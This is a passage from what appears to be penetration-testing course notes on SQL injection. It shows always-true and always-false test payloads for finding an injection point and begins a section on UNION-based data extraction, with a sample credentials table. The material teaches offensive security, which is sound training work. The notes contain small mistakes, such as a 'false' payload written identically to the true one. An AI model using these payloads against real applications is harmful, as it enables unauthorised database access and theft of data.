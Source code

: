     So we can try to inject `999999'` or `'1'='1` to transform the query into:
      ```
      SELECT <some fields> FROM <some table> WHERE id='999999 or '1'='1';
      ```

    Which basically is an **always true condition**.

  Testing this payload on the web application gives us back an output! To be sure, we also need to test an always false condition

    We then change our payload to `999999'` or `'1'='1` which is an **always false condition**:
      ```
      SELECT <some fields> FROM <some table> WHERE id='999999 or '1'='2';
      ```

  It is also possible to test a little more with other always true or always false conditions such as:
  - `1141' and 'els'='els`
  - `1141' and 'els'='elsec`
  - `1141' and 'hello'='hello`
  - `1141' and 'hello'='bye`
  - `els' and '1'='1`
  - `els' and '1'='2`

After detecting a potential injection point, it is time to test if it is actually possible.
In the following chapters, you will see different techniques to exploit SQL injection vulnerabilities.

____________________________________________________
## 4.3. Exploiting In-Band SQL Injection
**In-band SQL injection** techniques make the retrieval of data from the database very powerful thanks to the use of the **UNION** SQL command. For this reason, in-band injections are also known as *UNION-based SQL injection*.

This kind of attack lets penetration tester extract the database content, in the form of the database name, tables schemas, and actual data.

As we have seen in the first chapter of this module, the *UNION* statement combines the result-set of two or mote *SELECT* statements.
  Example:
    ```
    SELECT <field list> FROM <table> UNION SELECT <field list> FROM <another table>;
    ```
#### 4.3.1. First Scenario
We will see how to exploit an in-band SQL injection by studying some scenarios.
  In the first scenario the database contains 2 tables: `CreditCards` and `Users`.
    **CreditCards**
    |id(int)|username(string)|password(string)|real_name(string)|
    |-------|----------------|----------------|-----------------|
    | 1     | admin          |strongpass123   |Armando Romeo    |
    | 2     | fred           |wowstrongpass123|Fred Flintstone  |
